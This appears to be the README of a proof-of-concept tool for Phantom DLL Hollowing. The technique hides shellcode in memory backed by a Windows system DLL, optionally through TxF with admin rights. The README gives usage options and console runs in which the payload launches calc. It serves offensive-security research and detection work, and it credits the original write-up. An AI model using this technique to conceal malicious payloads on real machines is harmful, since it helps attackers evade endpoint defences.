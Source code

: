 # Phantom DLL Hollower

This PoC performs Phantom DLL Hollowing which reported by [@_forrestorr](https://twitter.com/_forrestorr).

```
C:\Tools>PhantomDllHollower.exe

PhantomDllHollower - Tool for testing Phantom DLL Hollowing.

Usage: PhantomDllHollower.exe [Options]

        -h, --help    : Displays this help message.
        -p, --payload : Specifies shellcode to execute.
        -t, --txf     : Flag to use TxF. This option requires administrative privilege.

[!] -p option is required.
```

To use this PoC, specifies shellcode file you want to execute as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>PhantomDllHollower.exe -p calc.bin

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
[+] Got target module path.
    [*] Target : C:\Windows\system32\aadauthhelper.dll
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x2CC
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF86D2C0000.
[>] Trying to write shellcode to payload section's entry point.
    [*] Entry Point @ 0x00007FF86D2C2900
[+] Shellcode is written successfully.
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30140      74824       0.34   7760   1 CalculatorApp



C:\Tools>
```

If you want to use TxF technique, set `-t` flag as well as shellcode file path.
This option requires administrative privilege:

```
C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[+] Got target module path.
    [*] Target : C:\Windows\system32\concrt140.dll
[>] Trying to generate payload data.
[+] Payload data is generated successfully.
[>] Trying to create section object for payload.
[+] Payload section object is created successfully.
    [*] Section Handle : 0x318
[>] Trying to map payload section.
[+] Payload Section is mapped at 0x00007FF863F80000.
    [*] Shellcode @ 0x00007FF863FAD030
[>] Executing your shellcode.
[+] Shellcode thread is created successfully.
[*] Waiting for shellcode thread exit.
[*] Done.


C:\Tools>certutil -hashfile C:\Windows\System32\concrt140.dll sha1
SHA1 hash of C:\Windows\System32\concrt140.dll:
2497d0e241c1adf74f03d7d6065e0e0dd365a9d9
CertUtil: -hashfile command completed successfully.

C:\Tools>powershell -c Get-Process calc*

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    598      49    30136      55972       0.30   7504   1 CalculatorApp



C:\Tools>
```

If you set `-t` flag without administrative privilege, failed to search target DLL as follows:

```
C:\Tools>powershell -c Get-Process calc*

C:\Tools>whoami /groups | findstr /i level
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


C:\Tools>PhantomDllHollower.exe -p calc.bin -t

[>] Trying to read payload from C:\Tools\calc.bin.
[+] Payload is read successfully (276 bytes).
[>] Searching target module file from C:\Windows\system32.
    [*] TxF mode is enabled. This mode requires administrative privilege.
[-] Failed to find abusable module. You may not have sufficient privileges.


C:\Tools>powershell -c Get-Process calc*

C:\Tools>
```

## References

* [Masking Malicious Memory Artifacts – Part I: Phantom DLL Hollowing](https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing)

* [GitHub - forrest-orr/phantom-dll-hollower-poc](https://github.com/forrest-orr/phantom-dll-hollower-poc)